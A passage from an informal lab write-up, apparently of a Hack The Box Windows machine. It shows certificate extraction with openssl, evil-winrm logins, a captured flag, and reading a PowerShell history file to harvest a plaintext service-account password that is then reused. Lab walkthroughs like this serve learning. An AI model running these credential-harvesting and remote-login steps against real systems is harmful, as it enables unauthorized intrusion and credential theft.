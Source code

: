 then we did something similar to grab the cert 

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt -legacy
Enter Import Password:
┌─[eu-dedivip-1]─[10.10.14.166]─[sm1gspl0it@htb-fw1xhk10ad]─[~]
└──╼ [★]$ ls

```

After a bunch of trial and error, we got in!

```bash
evil-winrm -S -i 10.129.29.228 -u Legacyy -p '' -c certificate.crt -k private.key
```

Its worth noting, that we got the legaccy user from the “strings” we ran earlier which is nice, the -S i learned has to be at the start of the syntax. I was banging by head and having it at the end! Also password blanmk works.

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> cat user.txt
3886961b5cba2a74622e0c6e96b44652

```

so getting in there i ran winpeas etc but naturally without a password what i shouldve thought is okay, maybe check the powershell historybut i didnt. So, i got help. But lets remember to run this everytime 

```bash
\Users\legacyy> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

```

```bash
evil-winrm -i 10.129.29.228 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

In!

so i did bloodhound thru the command you can find in my bloodhound sec 

![image.png](attachment:1112fa85-f812-4797-bb68-29a00f4ca0f8:image.png)

but got this same red flag of can ps remote that doesnt do shit, i didnt waste time on this but learned a new trick from checking the guide for quick wins.
